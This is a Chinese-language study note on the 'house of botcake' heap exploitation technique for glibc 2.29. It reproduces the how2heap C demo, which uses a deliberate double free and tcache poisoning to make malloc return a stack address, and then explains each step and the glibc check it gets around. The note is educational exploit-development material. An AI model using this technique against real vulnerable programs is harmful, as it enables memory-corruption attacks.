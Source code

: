 # house of botcake 笔记

glibc2.29 tcache机制下DoubleFree的出路

### 0x1 分析

#### [实例源码](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/house_of_botcake.c)

来自how2heap

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>


int main()
{
    /*
     * This attack should bypass the restriction introduced in
     * https://sourceware.org/git/?p=glibc.git;a=commit;h=bcdaad21d4635931d1bd3b54a7894276925d081d
     * If the libc does not include the restriction, you can simply double free the victim and do a
     * simple tcache poisoning
     * And thanks to @anton00b and @subwire for the weird name of this technique */

    // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    // introduction
    puts("This file demonstrates a powerful tcache poisoning attack by tricking malloc into");
    puts("returning a pointer to an arbitrary location (in this demo, the stack).");
    puts("This attack only relies on double free.\n");

    // prepare the target
    intptr_t stack_var[4];
    puts("The address we want malloc() to return, namely,");
    printf("the target address is %p.\n\n", stack_var);

    // prepare heap layout
    puts("Preparing heap layout");
    puts("Allocating 7 chunks(malloc(0x100)) for us to fill up tcache list later.");
    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
        x[i] = malloc(0x100);
    }
    puts("Allocating a chunk for later consolidation");
    intptr_t *prev = malloc(0x100);
    puts("Allocating the victim chunk.");
    intptr_t *a = malloc(0x100);
    printf("malloc(0x100): a=%p.\n", a); 
    puts("Allocating a padding to prevent consolidation.\n");
    malloc(0x10);
    
    // cause chunk overlapping
    puts("Now we are able to cause chunk overlapping");
    puts("Step 1: fill up tcache list");
    for(int i=0; i<7; i++){
        free(x[i]);
    }
    puts("Step 2: free the victim chunk so it will be added to unsorted bin");
    free(a);
    
    puts("Step 3: free the previous chunk and make it consolidate with the victim chunk.");
    free(prev);
    
    puts("Step 4: add the victim chunk to tcache list by taking one out from it and free victim again\n");
    malloc(0x100);
    /*VULNERABILITY*/
    free(a);// a is already freed
    /*VULNERABILITY*/
    
    // simple tcache poisoning
    puts("Launch tcache poisoning");
    puts("Now the victim is contained in a larger freed chunk, we can do a simple tcache poisoning by using overlapped chunk");
    intptr_t *b = malloc(0x120);
    puts("We simply overwrite victim's fwd pointer");
    b[0x120/8-2] = (long)stack_var;
    
    // take target out
    puts("Now we can cash out the target chunk.");
    malloc(0x100);
    intptr_t *c = malloc(0x100);
    printf("The new chunk is at %p\n", c);
    
    // sanity check
    assert(c==stack_var);
    printf("Got control on target/stack!\n\n");
    
    // note
    puts("Note:");
    puts("And the wonderful thing about this exploitation is that: you can free b, victim again and modify the fwd pointer of victim");
    puts("In that case, once you have done this exploitation, you can have many arbitary writes very easily.");

    return 0;
}
```

#### 流程

目的是获得栈上`stack_var`的地址

1. 先申请`7`个与`victim`相同大小的`chunk`准备填满`tcache bin`。

2. 申请两个堆，一个`prev`用来之后与`victim`合并，一个是`victim`。另外还要有一个`barrier`

3. `free`掉那`7`个`chunk`来填满`tcache bin`。

4. `free`掉`prev`和`victim`，他们会进入Unsorted bin。并且合并，合并之后的首地址是`prev`的地址。

5. 申请掉那`7`个中的一个`chunk`，为`victim`留位置。

6. 接下来把`prev`部分的内存申请切割出去（并申请了`victim`的头部和`fk`、`bk`指针部分），留下来的部分就是`victim`里的内存。

7. 把`victim`再次`free`掉，`victim`就会进入`tcache bin`。也就绕过了`tcache`机制的Double free检查。

   相关检查代码：

   ```c
   //_int_free()
   if (__glibc_unlikely (e->key == tcache))
             {
               tcache_entry *tmp;
               LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
               for (tmp = tcache->entries[tc_idx];
                    tmp;
                    tmp = tmp->next)
                 if (tmp == e)
                   malloc_printerr ("free(): double free detected in tcache 2");
               /* If we get here, it was a coincidence.  We've wasted a
                  few cycles, but don't abort.  */
             }
   ```

8. 我们这时候修改`victim->next`为`stack_var`地址，即可申请到`stack_var`

### 0x2 reference

[知世大佬]([https://nightrainy.github.io/2020/02/20/how2heap%E6%80%BB%E7%BB%93%E8%AE%A1%E5%88%92%E5%85%AB/](https://nightrainy.github.io/2020/02/20/how2heap总结计划八/))
